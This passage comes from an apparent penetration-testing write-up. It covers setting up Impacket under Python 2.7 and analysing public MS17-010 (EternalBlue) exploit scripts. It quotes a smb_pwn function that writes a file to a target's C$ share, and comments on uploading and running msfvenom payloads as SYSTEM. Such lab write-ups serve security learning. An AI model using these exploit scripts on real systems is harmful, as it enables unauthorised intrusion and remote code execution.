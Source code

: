     (impacket-venv) oxdf@parrot$ wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
    ...[snip]...
    (impacket-venv) oxdf@parrot$ python get-pip.py
    DEPRECATION: Python 2.7 reached the end of its life on January 1st, 2020. Please upgrade your Python as Python 2.7 is no longer maintained. pip 21.0 will drop support for Python 2.7 in January 2021. More details
     about Python 2 support in pip can be found at https://pip.pypa.io/en/latest/development/release-process/#python-2-support pip 21.0 will remove support for this functionality.
    Collecting pip<21.0
      Using cached pip-20.3.4-py2.py3-none-any.whl (1.5 MB)
    Installing collected packages: pip
      Attempting uninstall: pip
        Found existing installation: pip 20.3.4
        Uninstalling pip-20.3.4:
          Successfully uninstalled pip-20.3.4
    Successfully installed pip-20.3.4
    

Now finally install Impacket:

    
    
    (impacket-venv) oxdf@parrot$ pip install -r requirements.txt
    ...[snip]...
    (impacket-venv) oxdf@parrot$ pip install .
    ...[snip]...
    

#### Script Analysis

The best MS17-010 Python scripts I know of are from
[worawit](https://github.com/worawit/MS17-010). These work well, but are a bit
confusing to use. [helviojunior](https://github.com/helviojunior/MS17-010)
forked that repo and added a single `send_and_execute.py`, which is really
handy. It’s simply an update of the `zzz_exploit.py` script from the original,
but it is modified to upload a file and execute it as system.

In `zzz_exploit.py`, there’s a function, `smb_pwn`:

    
    
    def smb_pwn(conn, arch):
    	smbConn = conn.get_smbconnection()
    	
    	print('creating file c:\\pwned.txt on the target')
    	tid2 = smbConn.connectTree('C$')
    	fid2 = smbConn.createFile(tid2, '/pwned.txt')
    	smbConn.closeFile(tid2, fid2)
    	smbConn.disconnectTree(tid2)
    	
    	#smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
    	#service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
    	# Note: there are many methods to get shell over SMB admin session
    	# a simple method to get shell (but easily to be detected by AV) is
    	# executing binary generated by "msfvenom -f exe-service ..."
    